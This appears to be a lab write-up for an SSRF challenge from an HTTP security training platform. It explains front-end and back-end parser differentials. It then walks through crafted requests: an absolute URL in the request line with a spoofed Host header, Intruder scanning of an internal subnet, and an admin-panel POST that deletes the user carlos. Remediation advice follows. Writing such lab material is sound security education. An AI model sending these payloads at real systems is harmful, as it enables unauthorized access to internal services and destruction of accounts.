





## Challenge Overview
* **Challenge name**: SSRF via flawed request parsing
* **Category**: HTTP Host Header attacks / Parser Differential SSRF
* **Level**: Practitioner
* **Objective**: Bypass the front-end Host header validation mechanism using an absolute URL, scan the internal `192.168.0.0/24` subnet, access the internal administration panel, and delete the `carlos` account.

---

## 1. Core Fundamentals

In multi-tier distributed architectures, parsing discrepancies (parser differentials) between front-end and back-end HTTP parsers frequently introduce severe security vulnerabilities. Even when front-end reverse proxies enforce strict hostname validation, discrepancies in how downstream components determine the destination server can be abused to circumvent access controls.

### 1.1. Request Target Formats Specified in RFC 7230

HTTP/1.1 and HTTP/2 support two primary forms for specifying the request target:
- **Origin-form**: The conventional relative URI format used when a client communicates directly with an origin server: `GET /admin HTTP/1.1` accompanied by a `Host: example.com` header.
- **Absolute-form**: The absolute URI format primarily used when connecting via forward proxies or intermediary gateways: `GET https://example.com/admin HTTP/1.1`.

According to RFC 7230, Section 5.4, when a request contains an absolute URI in the request line, the request target MUST be derived from the URI authority component, and the recipient MUST ignore or override any conflicting value in the Host header.

### 1.2. Parser Discrepancy Between Front-end and Back-end

A flawed request parsing vulnerability emerges when two proxy or routing components employ contradictory parsing logic:
- **Front-end Proxy**: The parser evaluates the domain specified in the request line (absolute URL). Because this domain matches an allowed whitelist, the front-end considers the request legitimate, skips inspecting the Host header, and forwards the raw request downstream.
- **Back-end Routing**: The internal routing dispatcher preferentially inspects the `Host` header to determine the next-hop IP address within the private network perimeter.

---

## 2. Attack Architecture / Threat Model

### 2.1. Root Cause and Vulnerability Preconditions

- **Conflicting Parsing Specifications**: The front-end validates access permissions based on the request line, while the back-end routes traffic based on the Host header.
- **Lack of Request Normalization**: The front-end fails to normalize requests by converting absolute URLs to relative origin-form and rewriting the Host header before forwarding packets downstream.
- **Implicit Trust Architecture**: Internal administrative services assume that any incoming request originating from the private network perimeter is trustworthy, omitting independent authentication or authorization checks.

### 2.2. Attack Flow Diagram

```text
[ Attacker from Internet ]
       │
       │  Sends crafted hybrid request:
       │  GET https://vulnerable-lab.net/ HTTP/2   <── Front-end inspects this line (VALID)
       │  Host: 192.168.0.x                       <── Back-end reads this line for routing!
       ▼
[ Front-end Reverse Proxy ]
       │
       │  Parses Request Line: Observes legitimate domain
       │  Bypasses Host header filter ──► Forwards packet downstream!
       ▼
[ Back-end Routing Dispatcher ]
       │
       │  Reads Host header: "192.168.0.x"
       │  Establishes new TCP connection and forwards request into internal LAN
       ▼
[ Internal Network 192.168.0.0/24 ]
       │
       ├──► 192.168.0.1   ──► No response (504 Gateway Timeout)
       ├──► ...
       └──► 192.168.0.211 ──► Internal Admin Server responds (302 Found)
                                       │
[ Reverse Proxy ] ◄────────────────────┘
       │
       ▼
[ Forwards Admin Panel response back to Attacker ]
```

---

## 3. Vulnerability Exploitation

The exploitation procedure was conducted methodically through four steps:

### Step 1: Validating Front-end Defensive Controls

In Burp Suite Repeater, attempt to directly modify the Host header to point to a Burp Collaborator domain `8v4gqncwsusu9mxpp8sfubam3d94xulj.oastify.com` using the standard relative origin-form (`GET / HTTP/2`):

```http
GET / HTTP/2
Host: 8v4gqncwsusu9mxpp8sfubam3d94xulj.oastify.com
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
```

The server immediately rejects the request with an `HTTP/2 403 Forbidden` status and the message `"Client Error: Forbidden"`. This response proves that the front-end enforces strict domain validation on the Host header.



---

### Step 2: Triggering Flawed Request Parsing via Absolute URL

Apply parser manipulation by placing the full absolute URL of the lab application into the request line, while retaining the Burp Collaborator domain in the Host header:

```http
GET https://0a1e00850494db7c811fc025003d00fc.web-security-academy.net/ HTTP/2
Host: 8v4gqncwsusu9mxpp8sfubam3d94xulj.oastify.com
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
```

Result: The front-end evaluates the legitimate domain present in the request line and passes the request downstream. The back-end routing component receives the request and routes it to the Burp Collaborator server, returning an `HTTP/2 200 OK` response originating from Collaborator. The parser differential SSRF vulnerability is confirmed.



---

### Step 3: Brute-Forcing the Internal Subnet via Burp Intruder

Send the request to Burp Intruder to discover the administrative interface across the private `192.168.0.0/24` subnet. Place a payload marker on the final octet of the IP address in the Host header:

```http
GET https://0a1e00850494db7c811fc025003d00fc.web-security-academy.net/ HTTP/2
Host: 192.168.0.§0§
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
```

Ensure that **Update Host header to match target** is unchecked. Configure the payload type as Numbers ranging from 0 to 255. Launch the attack:
- **Non-existent IP hosts**: Return `504 Gateway Timeout`.
- **Target IP host**: Payload `211` (corresponding to IP `192.168.0.211`) responds with `HTTP/2 302 Found` containing a redirect header `Location: /admin`.



---

### Step 4: Deleting the Carlos Account and Solving the Challenge

After accessing the administrative interface at `192.168.0.211` and extracting a valid CSRF token (`xLYkXMWtPYelF48IHiOjxz4vMsfV8jMj`), construct a POST request directed to `/admin/delete`, preserving the absolute URL in the request line:

```http
POST https://0a1e00850494db7c811fc025003d00fc.web-security-academy.net/admin/delete HTTP/2
Host: 192.168.0.211
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=xLYkXMWtPYelF48IHiOjxz4vMsfV8jMj&username=carlos
```

The server processes the deletion request successfully and returns an `HTTP/2 302 Found` response redirecting to the homepage. The `carlos` account is purged from the database.



Refreshing the lab in the browser verifies that the challenge has been solved.



---

## 4. Remediation Strategies

### 4.1. Request Normalization at the Front-end Proxy

- **Normalize URL Formatting**: Before forwarding any request downstream, the front-end proxy must normalize absolute URLs into relative origin-form URIs.
- **Synchronize the Host Header**: If an incoming request uses an absolute URL, the proxy must extract the authority component and overwrite the Host header with that value to eliminate discrepancies between tiers.
- **Enforce Integrity Checks**: If the domain in the request line differs from the domain specified in the Host header (Domain Mismatch), the proxy must drop the connection and reject the request immediately with an `HTTP 400 Bad Request`.

### 4.2. Hardening Routing and Network Infrastructure

- **Eliminate Header-Based Dynamic Routing**: Internal routing dispatchers and reverse proxies must never rely on untrusted strings supplied in HTTP headers to determine upstream routing targets.
- **Network Segmentation and Isolation**: Implement strict firewall rules and egress controls so that intermediary proxies cannot freely establish arbitrary TCP connections into administrative management subnets or unauthenticated internal backends.
